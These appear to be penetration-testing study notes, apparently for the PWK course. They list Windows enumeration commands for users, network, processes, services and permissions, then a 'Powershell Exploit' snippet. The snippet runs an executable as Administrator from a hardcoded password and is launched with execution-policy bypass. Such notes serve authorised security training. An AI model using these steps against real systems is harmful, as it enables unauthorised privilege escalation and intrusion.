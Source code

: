 #### What OS is the target running:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

#### Hostname
`hostname`

`echo %hostname%`

#### List users on the local machine and query specific username
`net users`

`net user bob`


#### View Network Interfaces and Routing Table
`ipconfig /all`

`route print`

`arp -A`

#### Active Network Connections and Firewall Rules

`netstat -ano`

`netsh firewall show state`

`netsh firewall show config`

#### Running Processes and Scheduled Tasks

`schtasks /query /fo LIST /v`

`tasklist /SVC`

`net start`

`DRIVERQUERY`




sc query type= service

sc qc <SERVICE NAME>
  
  
wmic useraccount where name='robert' get sid



accesschk.exe -uwdqs Users c:\



## Powershell Exploit (Page 360 in PWK)

'''
$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",
$secpasswd)
$computer = "DEV01"
[System.Diagnostics.Process]::Start("C:\Windows\temp\dabbb118.exe","",
$mycreds.Username, $mycreds.Password, $computer)
'''

Run this:

> powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1


